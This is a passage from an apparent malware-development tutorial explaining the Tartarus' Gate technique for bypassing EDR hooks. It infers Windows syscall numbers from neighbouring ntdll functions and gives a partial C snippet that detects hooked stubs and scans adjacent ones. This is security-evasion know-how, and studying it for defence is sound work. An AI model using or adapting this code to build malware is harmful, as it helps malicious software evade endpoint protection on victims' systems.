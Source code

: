 In this hooked version, the first instruction are replaced with a jump to another location, disrupting the pattern that Halo's Gate relies on. With time, the community brought some improvements trying to solve this problems. One of the most famous aproches is the **Tartarus' Gate**.

## Tartarus' Gate: Bypassing The Hooks
The "tartarus gate" technique incorporates analyzing the neighboring functions of the targeted function3 to infer the SSNs as they are sequentially assigned.

Here’s how it works: Imagine a function labeled function C, which has been hooked by an EDR. We execute the Hell's Gate technique and it fails to retrieve the SSN for that function. Here is where the Tartarus' Gate technique starts. First looks into function B and D, that are adjacent to function C. By strategically jumping to these neighboring functions and sucessfully retriving the SSN values, an attacker can infer the SSN of Function C. 

The direction of the jump—whether forward (downward in the execution order) or backward (upward)—determines how many functions are traversed. If a negative jump is made (upward in execution), the attacker moves to functions called before the target, while a positive jump (downward in execution) involves functions called after the target.

![[tartarus_gate.png]]
_Tartarus' Gate aproach form Maldev Academy_

> **Note**
> 
> In x86_64 system architecture the NT functions have a 32-byte size, so the jumps are made 32 by 32

Returning to the Hell's Gate piece of code. We made some modifications to use the Targarus' Gate too:

``` c
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
    // Iterate over all the functions in the NT module (ntdll.dll) and find the one that matches the given hash
    (...)
	if (*((PBYTE)pFuncAddress) == 0x4C
			&& *((PBYTE)pFuncAddress + 1) == 0x8B
			&& *((PBYTE)pFuncAddress + 2) == 0xD1
			&& *((PBYTE)pFuncAddress + 3) == 0xB8
			&& *((PBYTE)pFuncAddress + 6) == 0x00
			&& *((PBYTE)pFuncAddress + 7) == 0x00) {

			BYTE high = *((PBYTE)pFuncAddress + 5);
			BYTE low  = *((PBYTE)pFuncAddress + 4);
			pNtSys->dwSSn = (high << 8) | low;
			break; // break for-loop [i]
		}

		// if hooked
		if (*((PBYTE)pFuncAddress) == 0xE9) {

			for (WORD idx = 1; idx <= RANGE; idx++) {
				// check neighboring syscall down
				if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
					&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
					&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
					&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
					&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
					&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {

					BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
					BYTE low  = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
					pNtSys->dwSSn = (high << 8) | low - idx;
					break; // break for-loop [idx]
				}
```